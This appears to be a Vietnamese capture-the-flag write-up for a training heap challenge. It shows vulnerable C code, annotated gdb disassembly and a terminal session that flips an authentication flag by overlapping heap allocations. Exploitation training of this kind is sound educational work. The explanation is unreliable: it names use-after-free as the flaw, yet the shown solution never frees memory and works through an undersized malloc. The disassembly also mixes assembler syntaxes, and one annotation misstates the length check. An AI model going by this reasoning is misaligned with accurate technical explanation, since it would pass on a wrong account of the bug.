

# Heap two
Source code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

struct auth {
  char name[32];
  int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv)
{
  char line[128];

  while(1) {
      printf("[ auth = %p, service = %p ]\n", auth, service);

      if(fgets(line, sizeof(line), stdin) == NULL) break;
      
      if(strncmp(line, "auth ", 5) == 0) {
          auth = malloc(sizeof(auth));
          memset(auth, 0, sizeof(auth));
          if(strlen(line + 5) < 31) {
              strcpy(auth->name, line + 5);
          }
      }
      if(strncmp(line, "reset", 5) == 0) {
          free(auth);
      }
      if(strncmp(line, "service", 6) == 0) {
          service = strdup(line + 7);
      }
      if(strncmp(line, "login", 5) == 0) {
          if(auth->auth) {
              printf("you have logged in already!\n");
          } else {
              printf("please enter your password\n");
          }
      }
  }
}
```
Đặt tên biến khó chịu thực sự.
Để giải quyết được challenge này chúng ta phải đổi giá trị của ```auth->auth``` thành khác 0.
Ta cũng thấy các địa chỉ tăng thêm 0x10 mỗi lần chúng ta phân bổ bộ nhớ mới bằng cách gọi auth:
```bash
auth a
[ auth = 0x804c008, service = (nil) ]
auth a
[ auth = 0x804c018, service = (nil) ]
```

0x10 là vùng nhớ cần thiết cho
- một chunk header
- 4 bytes vùng nhớ cho `auth` 
- phần đệm để căn chỉnh bộ nhớ được phân bổ trên ranh giới 8 byte

Về cơ bản thì bộ nhớ heap sau khi được cấp phát sẽ trông thế này



Đầu tiên nhìn đoạn code này
```c
if(strlen(line + 5) < 31) {
    strcpy(auth->name, line + 5);
}
```
Ta thấy độ dài của tham số dòng được kiểm tra. Điều đó có nghĩa là chúng ta không thể tràn auth->name.
Vấn đề thật sự của bài này là lỗi use after free. Ta thấy khi lần đầu cấp phát, auth = 0x804c008, sau khi free thì auth vẫn giữ giá trị 0x804c008. 
**chú ý rằng heap sẽ ưu tiên dùng vùng nhớ vừa bị giải phóng**. Do vậy sau khi gọi strdup, heap sẽ cấp phát bộ nhớ tại đúng vị trí vừa bị free là `0x804c008`. Như vậy ta chỉ cần làm cho chuỗi nhập vào sau service có thể ghi đè lên vị trí có địa chỉ là địa chỉ của auth là được

solution: 
```bash
$ gdb heap2
......
(gdb) disas main
Dump of assembler code for function main:
......
0x080489a7 <+115>:  movl   $0x4,(%esp)
0x080489ae <+122>:  call   0x804916a <malloc>            ; auth = malloc(4); 
0x080489b3 <+127>:  mov    0x804b5f4,%eax
0x080489b8 <+132>:  mov    eax,ds:0x804b5f4
0x080489bd <+137>:  movl   $0x4,0x8(%esp)   
0x080489c5 <+145>:  movl   $0x0,0x4(%esp)
0x080489cd <+153>:  mov    %eax,(%esp)
0x080489d0 <+156>:  call   0x80487bc <memset@plt>        ; memset(auth, 0, sizeof(auth));
0x080489d5 <+161>:  lea    %eax,0x10(%esp)
0x080489d9 <+165>:  add    $0x5,%eax
0x080489dc <+168>:  mov    %eax,(%esp)
0x080489df <+171>:  call   0x80487fc <strlen@plt>
0x080489e4 <+176>:  cmp    $0x1e,%eax                    ; if(strlen(line + 5) < 30) 
0x080489e7 <+179>:  ja     0x8048a01 <main+205>                 
0x080489e9 <+181>:  lea    0x10(%esp),%eax
0x080489ed <+185>:  lea    0x5(%eax),%edx
0x080489f0 <+188>:  mov    0x804b5f4,%eax
0x080489f5 <+193>:  mov    %edx,0x4(%esp)
0x080489f9 <+197>:  mov    %eax,(%esp)
0x080489fc <+200>:  call   0x804880c <strcpy@plt>        ; strcpy(auth->name, line + 5);
......
(gdb) quit

$ ./heap2
[ auth = (nil), service = (nil) ]
auth AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[ auth = 0x804c008, service = (nil) ]
service BBBB
[ auth = 0x804c008, service = 0x804c018 ]
login
please enter your password
[ auth = 0x804c008, service = 0x804c018 ]
service BBBB
[ auth = 0x804c008, service = 0x804c028 ]
login
you have logged in already!
```